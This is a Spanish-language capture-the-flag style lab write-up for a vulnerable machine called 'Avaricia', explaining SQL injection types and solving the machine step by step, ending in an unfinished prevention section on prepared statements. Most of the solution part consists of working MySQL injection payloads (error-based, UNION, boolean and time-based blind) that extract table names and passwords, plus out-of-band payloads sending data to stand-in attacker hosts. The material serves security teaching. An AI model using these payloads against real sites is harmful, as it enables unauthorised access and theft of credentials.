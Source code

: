 = Avaricia
:author: Manuel L. Quero
:revdate: 2025-03-31
:toc: left
:doctype: book

<<<

== Ataque SQL Injection (SQLi)

Los ataques de inyección SQL se basan en la manipulación de bases de datos SQL mediante la inserción de consultas maliciosas en campos de entrada. Esto permite a un atacante alterar datos, acceder a información confidencial y realizar acciones no autorizadas. Un usuario malintencionado podría:

* Suplantar la identidad de otro usuario con más privilegios.
* Elevar sus propios permisos o los de otros hasta niveles administrativos.
* Manipular datos existentes o eliminarlos.
* Obtener acceso a información sensible almacenada en la base de datos.

Existen tres grandes grupos de ataques SQLi:

=== 1. In-band SQL injection

Este es el tipo de ataque SQLi más clásico y directo. Se caracteriza porque el atacante envía consultas SQL maliciosas y recibe los resultados por el mismo canal de comunicación, generalmente como una respuesta de la base de datos en una página web.

Dentro de este grupo encontramos dos subtipos:

==== a. Error-based SQL injection

Este ataque explota los mensajes de error devueltos por la base de datos para obtener información sensible. Aunque estos errores pueden parecer inofensivos, un atacante puede utilizarlos para:

* Obtener la versión de la base de datos y poder usar ataques específicos dependiendo de la versión.
* Conocer la estructura de la base de datos para poder intentar SQLi más específicas.
* Extraer datos de la base de datos. El proceso es más largo y complejo pero se pueden manipular los errores para extraer datos.

==== b. Union-based SQL injection

Este ataque utiliza la cláusula *UNION* para combinar en una misma consulta información legítima con datos sensibles. Es un método especialmente peligroso, ya que permite al atacante recuperar casi cualquier dato almacenado en la base de datos con una única consulta.

=== 2. Blind SQL Injection

Las inyecciones SQL a ciegas son una variante en la que el atacante no recibe respuestas directas de la base de datos. En lugar de obtener mensajes de error o resultados visibles, debe inferir la información mediante observación indirecta.

Este tipo de ataques funciona como un sistema de "verdadero o falso", donde el atacante prueba diferentes consultas y analiza los cambios en el comportamiento del sistema.

Si quieres saber más sobre este tipo de ataques puedes mirar -> https://www.exploit-db.com/docs/47367[Inyección SQL a ciegas]

Dentro de este grupo encontramos dos subtipos:

==== a. Boolean-Based SQL Injection

En este ataque, el atacante inyecta una condición que evalúa si es *TRUE* o *FALSE*, observando las diferencias en la respuesta del servidor. Normalmente, se utiliza la cláusula *AND* para construir estas pruebas.

==== b. Time-based SQL Injection

En este caso, el ataque se basa en utilizar funciones como *SLEEP()* o *BENCHMARK()* para medir los tiempos de respuesta y determinar si una consulta se ejecutó correctamente.

=== 3. Out-of-band SQL injection (OOB SQLi)

El ataque de SQL fuera de banda consiste en enviar la información consultada a través de un canal diferente al utilizado para la interacción con la aplicación. El atacante usa comandos SQL para que envíen información a través de una conexión de red directa, una solicitud DNS o una solicitud HTTP

<<<

== Solucionar la máquina

Vamos a ver cómo realizar los diversos tipos de ataques de inyección SQL que hemos visto anteriormente y ver las respuestas que nos dan, además de entender las consultas que realizamos.

=== Despliegue de la máquina

En un directorio deberemos tener el auto_deploy.sh, avaricia.tar y docker-compose.yml, deberemos acceder con la terminal a dicho directorio y ejecutar el siguiente comando. 

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh avaricia.tar
----

En nuestro caso la base de datos usa Mysql, podemos ver una guía de los distintos payloads para otros servicios de bases de datos -> https://portswigger.net/web-security/sql-injection/cheat-sheet[SQLiCheatSheet].

<<<

=== 1. In-band SQL injection

==== a. Error-based SQL injection

Con este ataque, podremos obtener mucha información sobre la base de datos, desde su versión hasta contraseñas.

===== Reconocimiento

Pero antes de esto deberemos comprobar si nos muestra los errores o no para ello deberemos hacer la siguiente consulta:

----
Usuario: '
Contraseña: 1234
----

Al poner esa comilla simple, se cierra la consulta que hace la web al servidor de mysql, por lo que el resto sería un error en la sintaxis de sql.

image::assets/in-band/error-based/Recon1.png[Reconocimiento1]

image::assets/in-band/error-based/Recon2.png[Reconocimiento2]

===== Payloads

Para cada uno de ellos utilizaremos la clausula updatexml(), que permite modificar datos XML dentro de bases de datos MySQL. En nuestro caso lo usaremos para lanzar los errores y mostrar su contenido como un mensaje.

----
UPDATEXML(xml_target, xpath_expr, new_value)
----

*Obtener la versión del motor de MySQL*

----
Usuario: ' AND updatexml(null, concat(0x3a, @@version), null) -- '
Contraseña: 
----

* *'* -> Esto es un carácter de comilla simple que cierra la consulta original y nos permite iniciar la nuestra.
* *AND* -> Añadimos una condición a la consulta original.
* *updatexml()* -> La función intenta procesar una expresión XML, pero si se le pasa un valor que no es válido como XML (en este caso, un valor concatenado con concat), lanzará un error. El contenido que se pase dentro de concat() se convierte en el mensaje de error, lo que permite al atacante obtener información sensible.
- *null* -> Sirve para no afectar al ataque.
- *concat(0x3a, @@version)* -> Con esto, concatenaremos varias cadenas, el valor de _0x3a_ en hexadecimal corresponde con el carácter :, que se usará como separador entre los valores concatenados. Y _@@version_ es una variable global en MySQL que devuelve la versión del servidor.
- *null* -> Sirve para no afectar al ataque.
- *--* -> Sirven para que el resto de consulta sea comentado y sea ignorado.
- *'* -> Este carácter es para cerrar la otra comilla simple y que no nos de ningún error, y así se pueda comentar el resto de la consulta correctamente.

image::assets/in-band/error-based/Version1.png[Version1]

image::assets/in-band/error-based/Version2.png[Version2]

*Obtener el nombre de la base de datos actual*

----
Usuario: ' AND updatexml(null, concat(0x3a, database()), null) -- '
Contraseña: 
----

Como podemos ver la sintaxis es la misma que el anterior pero cambia el contenido del concat().

* *database()* -> Esta es una función de MySQL que devuelve el nombre de la base de datos actual a la que está conectado el servidor MySQL.

image::assets/in-band/error-based/BaseDatos1.png[BaseDatos1]

image::assets/in-band/error-based/BaseDatos2.png[BaseDatos2]

*Obtener el nombre de la primera tabla*

----
Usuario: ' AND updatexml(null, concat(0x3a, (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)), null) -- '
Contraseña: 
----

* *information_schema.tables* -> _information_schema_ es una base de datos especial en MySQL que contiene información sobre todas las bases de datos y sus tablas. La tabla tables contiene los nombres de todas las tablas de una base de datos.

* *table_schema=database()* -> database() devuelve el nombre de la base de datos actual. Al usar esta función dentro de la consulta, estás buscando las tablas dentro de la base de datos actual.

* *LIMIT 0,1* -> Esto limita los resultados de la consulta a una sola fila. De esta forma obtendremos solo el primer nombre de tabla de la base de datos.

image::assets/in-band/error-based/Usuarios1.png[TablaUsuarios1]

image::assets/in-band/error-based/Usuarios2.png[TablaUsuarios2]

*Obtener el nombre de la primera columna de una tabla*

----
Usuario: ' AND updatexml(null, concat(0x3a, (SELECT column_name FROM information_schema.columns WHERE table_name='usuarios' LIMIT 0,1)), null) -- '
Contraseña: 
----

* *information_schema.columns* -> Esta tabla contiene información sobre las columnas de todas las tablas de la base de datos. Se puede consultar para obtener detalles sobre las columnas de una tabla específica.

* *table_name='usuarios'* -> Aquí estamos buscando las columnas de la tabla llamada usuarios (que lo podemos obtener de la anterior consulta).

* *LIMIT 0,1* -> Limitamos el resultado a solo una columna para facilitar la consulta y evitar que se devuelvan demasiados resultados.

image::assets/in-band/error-based/Colum1.png[Columna1]

image::assets/in-band/error-based/Colum2.png[Columna2]

*Extraer usuarios y contraseñas (u otras columnas)*

----
Usuario: ' AND updatexml(null, concat(0x3a, (SELECT usuario FROM usuarios LIMIT 0,1)), null) -- '
Contraseña: 
----

Como ya sabemos la tabla y podemos conocer las distintas columnas que tiene, se hace más sencilla la busqueda de información. En este caso, vamos a extraer el nombre del primer usuario.

image::assets/in-band/error-based/Nombre1.png[NombreUsuarios1]

image::assets/in-band/error-based/Nombre2.png[NombreUsuarios2]

----
Usuario: ' AND updatexml(null, concat(0x3a, (SELECT password FROM usuarios LIMIT 0,1)), null) -- '
Contraseña: 
----

También podemos ver las contraseñas si sabes la columna en la que están. Si queremos ver otros datos de la misma columna podemos cambiar el LIMIT a LIMIT(1,1).

image::assets/in-band/error-based/Contraseñas1.png[Contraseñas1]

image::assets/in-band/error-based/Contraseñas2.png[Contraseñas2]

==== b. Union-based SQL injection

===== Reconocimiento

Para este tipo de ataques es importante conocer cuantas columnas tiene la consulta original, para que las columnas que inyecta el UNION coincidan.

Entonces, podemos usar el payload anterior para obtener el nombre la columna empezando por LIMIT(0,1) hasta que nos de error.

----
' AND updatexml(null, concat(0x3a, (SELECT column_name FROM information_schema.columns WHERE table_name='usuarios' LIMIT 0,1)), null) -- '
----

O podemos usar un payload UNION para ir sacando mediante NULL la cantidad de columnas que tiene.

----
Usuario: ' UNION SELECT NULL, NULL, NULL, NULL,(...) -- '
Contraseña: 
----

Aclarar que los (...) son NULL en caso que la tabla tenga más columnas. Si la tabla tiene seis columnas se deberán añadir dos NULL más al payload.

De esta forma, sabremos la estructura de la tabla y podremos incluso acceder, aunque no tengamos datos de nadie todavía. Esto nos permitirá inyectar datos específicos.

image::assets/in-band/union-based/Recon1.png[Reconocimiento1]

image::assets/in-band/union-based/Recon2.png[Reconocimiento2]

===== Payloads

*Recuperar el nombre de la base de datos*

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), database() -- '
Contraseña: 
----

Este payload lo que nos mostrará será el nombre de la base de datos en la posición que pongamos database(), es decir, si la tabla tiene seis columnas y en la cuenta se muestran los datos de las tres últimas columnas, tendremos que poner database() en alguna de esas posiciones para obtener los datos, en este caso el nombre de la base de datos.

image::assets/in-band/union-based/BaseDatos1.png[BaseDatos1]

image::assets/in-band/union-based/BaseDatos2.png[BaseDatos2]

*Recuperar el nombre de las tablas*

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() -- '
Contraseña: 
----

* *group_concat(table_name)* -> Esta función de MySQL concatena todos los nombres de las tablas en la base de datos, obteniendolas separadas por comas.

* *information_schema.tables* -> Esta tabla contiene información sobre todas las tablas en todas las bases de datos en MySQL. La consulta se limita a la base de datos actual utilizando WHERE *table_schema=database()*.

image::assets/in-band/union-based/Tablas1.png[NombreTablas1]

image::assets/in-band/union-based/Tablas2.png[NombreTablas2]

*Recuperar los nombres de las columnas de una tabla específica*

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), group_concat(column_name) FROM information_schema.columns WHERE table_name='usuarios' -- '
Contraseña: 
----

* *group_concat(column_name)* -> Similar al paso anterior, esta función concatenará los nombres de las columnas de la tabla usuarios y los devolverá como un solo resultado.

* *information_schema.columns* -> Esta tabla contiene información sobre todas las columnas de todas las tablas en MySQL. Al limitarla por table_name='usuarios', obtenemos los nombres de las columnas de la tabla usuarios.

image::assets/in-band/union-based/Columnas1.png[Columnas1]

image::assets/in-band/union-based/Columnas2.png[Columnas2]

*Extraer datos de las columnas (usuarios, contraseñas u otras columnas)*

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), group_concat(usuario) FROM usuarios -- '
Contraseña: 
----

* *group_concat(usuario)* -> Aquí estamos extrayendo los datos de la columna usuario de la tabla usuarios y concatenándolos para que todos los nombres de usuario sean devueltos en una sola cadena separada por comas.

image::assets/in-band/union-based/Usuarios1.png[Usuarios1]

image::assets/in-band/union-based/Usuarios2.png[Usuarios2]

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), group_concat(password) FROM usuarios -- '
Contraseña: 
----

* *group_concat(password)* -> Similar al paso anterior, pero en este caso estamos extrayendo los valores de la columna password de la tabla usuarios.

image::assets/in-band/union-based/Contraseñas1.png[Contraseñas1]

image::assets/in-band/union-based/Contraseñas2.png[Contraseñas2]

=== 2. Blind SQL Injection

==== a. Boolean-Based SQL Injection

En los ataques boolean-based se usan operadores lógicos como AND u OR para alterar las condiciones de una consulta SQL. AND se usa cuando se conoce una condición válida (como un usuario) y se quiere comprobar si otra también lo es, por ejemplo 1=1. OR, en cambio, permite que la consulta sea verdadera si al menos una condición se cumple, como usuario = 'admin' OR 1=1, forzando así una respuesta positiva.

En nuestro caso, vamos a usar AND ya que con los anteriores resultado sabemos que existe el usuario *admin* y *user*. En caso de que no conozcamos estos datos se recomienda usar OR.

===== Reconocimiento

Ahora valuaremos si la página es vulnerable a este tipo de ataques, la lógica de esta página es que si es verdad nos dejará acceder, si es falso nos dirá que las credenciales son incorrectas. A este tipo de ataques se les suele hacer un script para automatizar la iteración y obtener respuestas para cosas más específicas.

----
Usuario: admin' AND 1=1 --
Contraseña: 
----

image::assets/blind/boolean-based/Recon1.png[Reconocimiento1]

image::assets/blind/boolean-based/Recon2.png[Reconocimiento2]

----
Usuario: admin' AND 1=2 --
Contraseña: 
----

image::assets/blind/boolean-based/Recon3.png[Reconocimiento3]

image::assets/blind/boolean-based/Recon4.png[Reconocimiento4]

===== Payloads

*Inferir nombre de la base de datos*

En esta parte, cómo queremos algo muy específico que es el nombre de la base de datos, podemos ir letra por letra para ir sacando el nombre de la base de datos o tener un script y usar un diccionario para sacarlo más rápido. En este caso buscamos *banco*.

----
Usuario: admin' AND SUBSTRING(database(),1,1) = 'a' -- 
Contraseña:
----

Y así deberemos seguir con cada letra, obviamente esto no está pensado para hacerlo así y hay scripts que solucionan estos problemas. Una herramienta muy eficaz es https://github.com/sqlmapproject/sqlmap[sqlmap].

* *SUBSTRING(database(),1,1)* -> Toma el primer carácter del nombre de la base de datos. Para pasar al siguiente caracter sería SUBSTRING(database(),2,1), etc.
* *= 'b'* -> Compara si ese carácter es 'b'.

image::assets/blind/boolean-based/BaseDatos1.png[BaseDatos1]

image::assets/blind/boolean-based/BaseDatos2.png[BaseDatos2]

----
Usuario: admin' AND SUBSTRING(database(),1,1) = 'b' -- 
Contraseña:
----

image::assets/blind/boolean-based/BaseDatos3.png[BaseDatos3]

image::assets/blind/boolean-based/BaseDatos4.png[BaseDatos4]

*Inferir nombre de tablas*

En este caso buscamos *usuarios* en la base de datos actual.

----
Usuario: admin' AND (SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) = 'a' -- 
Contraseña:
----

image::assets/blind/boolean-based/Tablas1.png[Tablas1]

image::assets/blind/boolean-based/Tablas2.png[Tablas2]

----
Usuario: admin' AND (SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) = 'u' -- 
Contraseña:
----

image::assets/blind/boolean-based/Tablas3.png[Tablas3]

image::assets/blind/boolean-based/Tablas4.png[Tablas4]

Este payload consulta la primera tabla del esquema actual y verifica si empieza con la letra 'u'. Se van cambiando posiciones (LIMIT 1,1, LIMIT 2,1, etc.) y posiciones del carácter (SUBSTRING(...,2,1), etc.) para inferir cada tabla y cada letra.

*Extraer columnas de una tabla*

En este caso buscamos *usuario* en la tabla *usuarios*.

----
Usuario: admin' AND (SELECT SUBSTRING(column_name,1,1) FROM information_schema.columns WHERE table_name='usuarios' LIMIT 1,1) = 'u' -- 
Contraseña:
----

image::assets/blind/boolean-based/Columnas1.png[Columnas1]

image::assets/blind/boolean-based/Columnas2.png[Columnas2]

Y al igual que el resto se debe de ir carácter por carácter para obtener la pálabra correcta. Se van cambiando posiciones (LIMIT 1,1, LIMIT 2,1, etc.) y posiciones del carácter (SUBSTRING(...,2,1), etc.) para inferir cada tabla y cada letra.

*Extraer datos*

En este caso buscamos *admin123* en la columna *password*.

----
Usuario: admin' AND (SELECT SUBSTRING(usuario,1,1) FROM usuarios LIMIT 1,1) = 'u' -- 
Contraseña:
----

image::assets/blind/boolean-based/Contraseña1.png[Contraseña1]

image::assets/blind/boolean-based/Contraseña2.png[Contraseña2]

----
Usuario: admin' AND (SELECT SUBSTRING(usuario,2,1) FROM usuarios LIMIT 1,1) = 's' -- 
Contraseña:
----

image::assets/blind/boolean-based/Contraseña3.png[Contraseña3]

image::assets/blind/boolean-based/Contraseña4.png[Contraseña4]

===== Aclaración

Como hemos visto, este ataque es muy repetitivo, por lo que he recalcado que es mucho más eficaz realizarlo mediante un script. Además, en un caso real no conoceremos de antemano ninguna información, por eso he explicado en cada paso qué es lo que busco, para ir directo al objetivo y no perder tiempo con pruebas innecesarias.

==== b. Time-based SQL Injection

Este tipo de ataque es muy parecido al anterior, por lo que también recomendaría usar un script

===== Reconocimiento

En este tipo de ataques, notaremos que si es verdadero la página empezará a cargar, si es falso la página se actualizará con normalidad.

----
Usuario: admin' AND IF(1=1, SLEEP(5), 0) -- 
Contraseña:
----

image::assets/blind/time/Recon1.png[Reconocimiento1]

image::assets/blind/time/Recon2.png[Reconocimiento2]

----
Usuario: admin' AND IF(1=2, SLEEP(5), 0) -- 
Contraseña:
----

image::assets/blind/time/Recon3.png[Reconocimiento3]

image::assets/blind/time/Recon4.png[Reconocimiento4]

* *AND IF(1=1, SLEEP(5), 0)* -> Si la condición 1=1 es verdadera (siempre lo es), el servidor ejecutará SLEEP(5) y causará un retraso de 5 segundos.

===== Payloads

*Obtener el nombre de la base de datos completo*

Como ya sabemos que es *banco* podemos buscar directamente, pero ocurre como en el anterior ataque.

----
Usuario: admin' AND IF(SUBSTRING(DATABASE(),1,1) = 'b', SLEEP(5), 0) -- 
Contraseña:
----

image::assets/blind/time/BaseDatos1.png[BaseDatos1]

image::assets/blind/time/BaseDatos2.png[BaseDatos2]

----
admin' AND IF(SUBSTRING(DATABASE(),1,1) = 'b', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING(DATABASE(),2,1) = 'a', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING(DATABASE(),3,1) = 'n', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING(DATABASE(),4,1) = 'c', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING(DATABASE(),5,1) = 'o', SLEEP(5), 0) -- 
----

* *IF(SUBSTRING(DATABASE(),1,1) = 'a', SLEEP(5), 0)* -> Si el primer carácter es 'a', el servidor esperará 5 segundos (esto es el ataque Time-Based).

- *SUBSTRING(DATABASE(),1,1)* -> Extrae el primer carácter del nombre de la base de datos.

. *DATABASE()* Función de MySQL que devuelve el nombre de la base de datos actual.

*Obtener tablas sobre la base de datos*

En este caso vamos a buscar la tabla *usuarios*

----
Usuario: admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),1,1) = 'u', SLEEP(5), 0) -- 
Contraseña:
----
image::assets/blind/time/Tablas1.png[Tablas1]

image::assets/blind/time/Tablas2.png[Tablas2]

----
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),1,1) = 'u', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),2,1) = 's', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),3,1) = 'u', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),4,1) = 'a', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),5,1) = 'r', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),6,1) = 'i', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),7,1) = 'o', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),8,1) = 's', SLEEP(5), 0) -- 
----

* *SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE()* -> Consulta que selecciona las tablas de la base de datos actual.

* *SUBSTRING(...)* -> Extrae el primer carácter del nombre de la primera tabla.

* *SLEEP(5)* -> Si el primer carácter es correcto (en este caso, 'u'), el servidor hará una pausa de 5 segundos.

*Obtener las columnas de una tabla*

En este caso vamos a buscar la columna *id*

----
Usuario: admin' AND IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name = 'usuarios' LIMIT 1),1,1) = 'i', SLEEP(5), 0) -- 
Contraseña:
----

image::assets/blind/time/Columnas1.png[Columnas1]

image::assets/blind/time/Columnas2.png[Columnas2]

----
admin' AND IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name = 'usuarios' LIMIT 1),1,1) = 'i', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name = 'usuarios' LIMIT 1),2,1) = 'd', SLEEP(5), 0) -- 
----

* *SELECT column_name FROM information_schema.columns WHERE table_name = 'usuarios'* -> Consulta que selecciona los nombres de las columnas de la tabla 'usuarios'.

*Obtener contraseñas o datos sensibles*

En este caso vamos a buscar la contraseña *admin123* dentro de los columna *password*

----
Usuario: admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),1,1) = 'a', SLEEP(5), 0) -- 
Contraseña:
----

image::assets/blind/time/Contraseña1.png[Contraseña1]

image::assets/blind/time/Contraseña2.png[Contraseña2]

----
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),1,1) = 'a', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),2,1) = 'd', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),3,1) = 'm', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),4,1) = 'i', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),5,1) = 'n', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),6,1) = '1', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),7,1) = '2', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),8,1) = '3', SLEEP(5), 0) --
----

SELECT password FROM usuarios LIMIT 1: Obtiene la primera fila de la columna password de la tabla usuarios.

===== Aclaración

Como hemos podido ver, ocurre como en el caso anterior aunque cambia un poco la sintaxis, por ello recomiendo el uso de scripts en los ataques a ciegas.

=== 3. Out-of-band SQL injection (OOB SQLi)

Los ataques fuera de banda se basan en enviar la información al servidor http o dns del atacante. En nuestro caso, no podemos realizarlos ya que la base de datos debe hacer peticiones externas y al estar en local no se puede, de todas formas, vamos a ver cómo se realizan estos ataques.

Hay que entender que estos ataques se realizan cuando el atacante no puede usar el mismo canal para enviar el ataque y recibir los datos o cuando el servidor responde que es inestable. Normalmente se realiza por HTTP. Y es importante que el servidor no tenga --secure-file-priv, ya que limita la lectura o escritura de atchivos a un directorio específico.

* El atacante realiza una consulta a la web con un payload como los siguientes:

----
- HTTP: ' UNION SELECT NULL,NULL,(...),CONCAT('http://example.com/?data=', @@version) ;-- 

Este payload realiza una inyección SQL y ejecuta una consulta que solicita un archivo en el servidor del atacante. En este caso, la consulta le pide al servidor web de la víctima que realice una petición HTTP a un servidor controlado por el atacante y pase información (en este caso, la versión de MySQL) como parte de la URL.

- DNS: ' UNION SELECT NULL,NULL,(...),@@version INTO OUTFILE '\\\\example.com\\capture.txt' ;--

Similar al anterior, pero en este caso, la inyección SQL hace que la base de datos intente resolver un dominio DNS. La función load_file() o una función similar intenta acceder a un recurso en el dominio controlado por el atacante. Esto puede ser aprovechado para exfiltrar información como la versión de MySQL o el nombre de usuario.
----

* La página web realiza la consulta a la base de datos, pasando el payload del atacante en la consulta SQL.

* Cómo recibe el atacante la información:

----
- HTTP: La base de datos realiza una petición HTTP al servidor del atacante. En este caso, el payload contiene una URL que será solicitada al servidor del atacante, permitiendo que los datos (por ejemplo, la versión de la base de datos) sean enviados como parte de los parámetros de la URL.

Por ejemplo, la base de datos de la víctima hará una solicitud HTTP similar a: http://attacker.com/capture?version=5.7.35

- DNS: El servidor de bases de datos realiza una consulta DNS al dominio controlado por el atacante. El atacante puede ver las consultas DNS que se envían al servidor controlado por él, y en esos registros de DNS podrá ver los datos exfiltrados, como la versión de MySQL o cualquier otra información solicitada en la consulta SQL.

En este caso, el servidor de la base de datos realiza una consulta a un dominio DNS como: 5.7.35.attacker.com

El atacante puede ver esta consulta en su servidor DNS y extraer la información.
----

image::assets/oob/OOB.png[OOB]

<<<

== ¿Cómo prevenir?

=== 1. Parametrizar

Las consultas parametrizadas (prepared statements) con variables asociadas (variable binding), son la forma correcta para escribir sentencias SQL. Para ello se define primero todo el código SQL y después se asocia cada parámetro variable. Este tipo de construcción permite a la base de datos distinguir entre código (estructura) y datos (valores) sin importar qué entradas proporcionó un usuario.

Nuestra página está escrita con PHP usando solo una consulta sin preparar. Podemos observar en el siguiente ejemplo cómo sería una consulta preparada en PHP:

.Consulta preparada
[%collapsible]
====
[source,php]
----
<?php
$sentencia = $mbd->prepare("INSERT INTO REGISTRY (name, value) VALUES (:name, :value)");
$sentencia->bindParam(':name', $nombre);
$sentencia->bindParam(':value', $valor);

// insertar una fila
